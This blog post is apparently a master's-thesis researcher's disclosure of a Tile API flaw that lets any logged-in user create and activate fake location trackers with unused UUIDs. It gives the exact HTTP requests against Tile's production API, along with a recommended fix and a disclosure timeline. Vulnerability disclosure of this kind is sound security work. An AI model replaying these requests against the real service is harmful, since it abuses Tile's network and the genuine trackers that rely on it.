 ```yaml
---
title: 'Tile - Creating Fake Trackers'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an authenticated attacker to create fake trackers. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows any authenticated adversary to create fake trackers.

# Vulnerability

It is possible to create fake trackers with unused Tile UUIDs.

The endpoint used to add a Tile tracker to an account doesn't prohibit creating a tracker with an unused Tile UUID.

Essentially, this allows attackers to create almost as many fake trackers as they want without buying legitimate Tile trackers.
All fake trackers are treated by the Tile network as genuine trackers.

# Proof-of-Concept

The process is relatively simple.
The attacker must first sign in to their account.
Then, they must send one request to register a fake tracker and another request to actually activate the tracker.
If the attacker doesn't activate the tracker, some features, such as _Community Find_, will not work with that tracker.

## 1. Authentication
To create a fake tracker, the attacker needs a valid client UUID and use it to sign in to their account.
The attacker can create a valid client UUID by generating a random UUID and registering it with Tile by sending the following request:
```http
PUT https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7 HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]


registration_timestamp=1720090702959&app_id=android-tile-production&app_version=2.115.0.5050
```

Afterwards, they can sign in to their account with the following request:
```http
POST https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7/sessions HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]

email=********&password=********
```

## 2. Creating a Fake Tracker
Using the session cookie and the client UUID of the authentication, the attacker can then create fake tracker by sending the following request:
```http
POST https://production.tile-api.com/api/v1/tiles/75edcdf5bdcae9d3 HTTP/2.0
content-type: multipart/form-data; boundary=30f4a406-0a01-495b-8018-b9f087e6226e
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
cookie: session=[...]
[...]: [...]

--30f4a406-0a01-495b-8018-b9f087e6226e
Content-Disposition: form-data; name="tile_uuid"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 16

75edcdf5bdcae9d3
--30f4a406-0a01-495b-8018-b9f087e6226e
Content-Disposition: form-data; name="name"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 12

Fake Tracker
--30f4a406-0a01-495b-8018-b9f087e6226e--
```
The field Tile UUID specified in the request can be any random 8-byte value that is not yet linked to any actual Tile tracker.

## 3. Activating the Fake Tracker
In the last step, the attacker must activate the fake tracker by sending the following request:
```http
PUT https://production.tile-api.com/api/v1/tiles/75edcdf5bdcae9d3 HTTP/2.0
content-type: multipart/form-data; boundary=f0845924-3003-45d8-9aa0-816cc3870b89
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
cookie: session=[...]
[...]: [...]

--f0845924-3003-45d8-9aa0-816cc3870b89
Content-Disposition: form-data; name="status"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 9

ACTIVATED
--f0845924-3003-45d8-9aa0-816cc3870b89
Content-Disposition: form-data; name="group_id"
Content-Transfer-Encoding: binary
Content-Type: text/plain; charset=UTF-8
Content-Length: 36

[...]
--f0845924-3003-45d8-9aa0-816cc3870b89--
```

# Fix

It is recommended to verify that the Tile UUID is linked to a Tile tracker.

# Timeline

- 2024-03-13: Contacted Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacted Tile's support asking for a status update
